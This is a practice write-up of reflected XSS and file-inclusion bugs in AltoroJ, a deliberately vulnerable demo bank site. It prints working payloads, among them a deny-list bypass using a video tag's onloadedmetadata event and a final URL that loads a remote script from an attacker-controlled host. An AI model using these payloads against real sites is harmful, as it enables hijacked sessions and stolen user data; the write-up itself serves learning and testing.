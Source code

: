 # AltoroJ - Reflected XSS in Error Messages via `Content` Parameter
Jonathan Gregson, 11 September 2020

## Brief
I wanted to practice finding XSS vulnerabilities on web apps and searched for a vulnerable app online. I found the [AltoroJ](https://github.com/hclproducts/AltoroJ) project, but not before finding a hosted version on [demo.testfire.net](http://demo.testfire.net/). This writeup will be about my findings there.

## Discovery
As with every website I visit, my first instinct was to type `test<` into the search bar and see if the angle bracket was left unescaped. As expected, `<` was converted to `&lt;` in the output. Nothing can be that easy anymore.

I quickly got bored of the search bar as nothing was jumping out at me as unusual or dangerous. What did jump out though was that some of the links on the page were to `index.jsp` with HTM pages in the `content` parameter, like `index.jsp?content=inside_contact.htm`. This seemed like something that could be vulnerable to local file inclusion or directory traversal.

I replaced `inside_contact.htm` with `../../../../../../../../../../etc/passwd` in a final attempt at instant gratification, but unfortunately, the application returned a 500 internal server error, referencing a null pointer exception:

![HTTP Status 500 - Internal Server Error](images/http-status-500-internal-server-error.png)

Actually that all sounded very bad. I tried including the non-existent page `rnrgudvdhg.htm` and was given a much more helpful error message of `Failed due to The requested resource (/static/rnrgudvdhg.htm) is not available`. So whatever was passed in the `content` parameter the web app would look for in `static/`. We couldn't traverse back to the root of the file system yet, but could we traverse back out of `static` and include files from the root of the web app?

![http://demo.testfire.net/index.jsp?content=../login.jsp](images/index-jsp-include-login-jsp.png)

Looks like we could. We could even get recursive and have `index.jsp` include itself:

![http://demo.testfire.net/index.jsp?content=../index.jsp](images/index-jsp-include-index-jsp.png)

This was definitely vulnerable to LFI, but I was still craving for XSS. I'll come back to the FLI/traversal aspect of this parameter another time. Focusing on XSS again, I thought the error message from earlier looked interesting. It was like it was returning part of an exception to me without filtering it. I checked if I could include an angle bracket:

![http://demo.testfire.net/index.jsp?content=nothing<here](images/content-nothing-here.png)

It worked! This suggested to me that the application was taking my input and attempting to access system resources without validating it, and then returning exceptions to me, again without validating them. There was so much going on here, but again, back to XSS.

## Exploitation
A user's ability to get angle brackets into the DOM almost guarantees there is an XSS vulnerability or five somewhere. There are just too many things you can abuse in the DOM. I knew I could open HTML tags, so I tried to close one as well, but the output kept coming back sanitized. Some combinations of angle brackets seemed to be sanitized and some did not. Anyway, I decided to focus on the classic `<img src=x onerror=alert(1) foo="` trick and hope the `<img>` tag closed safely somewhere and executed the payload. But what I got back was odd:

![?content=<img%20src=x%20onerror=alert(1)%20foo=" => Failed due to](images/failed-due-to.png)

`Failed due to `? It was like an error was still occurring, but the exception output was being filtered, or there was none at all. I was getting this same result whenever I tried `onload=`, or `onerror=`, but not `onloa=`. In fact, every event attribute I tried caused this, as well as style attributes and a few other things.

I thought there must be something in place which was filtering and blocking my input if it detected certain known malicious strings. I was still able to include image tags and even display remote images, I just couldn't bind any event listeners to them in the HTML tag. It was frustrating -- I knew I was so close. But I also knew that filtering input and output by looking for matches on a deny list is a terrible security approach, because developers inevitably miss something, or fail to keep libraries up to date with the platform and language.

I noted that the site felt "old" overall, and thought that this filter might not be up to date on newer DOM events like touch events. I dropped in `ontouchstart=alert(1` and, with a little user interaction, it worked!

![?content=%3Cimg%20src=%22//jdgregson.com/cat.png%22%20ontouchstart=alert(1](images/touch-start-xss.gif)

But this wasn't nearly good enough to feed my hunger for XSS. Not only did this require the XSS victim to be using a touch-based device, it also required the site to place the image in a large, visible, touchable spot, and the user to actually touch the image. I needed a payload that would trigger when the URL was loaded without any further interaction from the user.

I went back to trying to bypass this XSS filter. I tried using null bytes before, in the middle of, or end of the `onload=` attribute, but it always either broke the attribute or was blocked. I found that many or all HTML5 event attributes were not blocked, but most of them don't allow for execution on load, or don't apply to the tags I was using.

Many of the newer HTML5 events could be caused to fire on load, such as media events like `loadstart`, `loadeddata`, and `loadend`. But unfortunately, none of these events are fired by classic HTML tags like `<img>`. To make matters worse, the tags that will fire them are actually supposed to be used as a nested set of tags like:

    <video onloadstart="alert(1)">
        <source src="video.mp4">
    </video>

I wasn't able to get nearly half of that into a payload before the filter would block it. But I was determined to find a way to use the newer HTML5 tags since I wasn't able to get past the filter in any other meaningful way. Out of desperation, I sent nothing but a `<video>` tag for the parameter and to my amazement, not only did this make it past the filter, but the browser restructured the HTML output so that I had a closing `</video>` tag with spec-compliant text in between:

![?content=<video>](images/video-tag.png)

Why hadn't I tried this an hour before? It would have saved so much time. I tried again with `<video><source>` and the browser properly closed both tags. This was perfect! I added some new, unfiltered HTML5 event attributes and tested the payload:

![?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E](images/video-onloadedmetadata-xss.png)

It worked! I finally had a one-click reflected XSS payload:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

Taking things a step further, I updated the payload to download a JavaScript file from an attacker-controlled website and add it to the DOM:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22s=document.createElement('script');s.src='//jdgregson.com/xss.js';document.body.appendChild(s)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

![Remote XSS payload](images/remote-xss-payload.png)
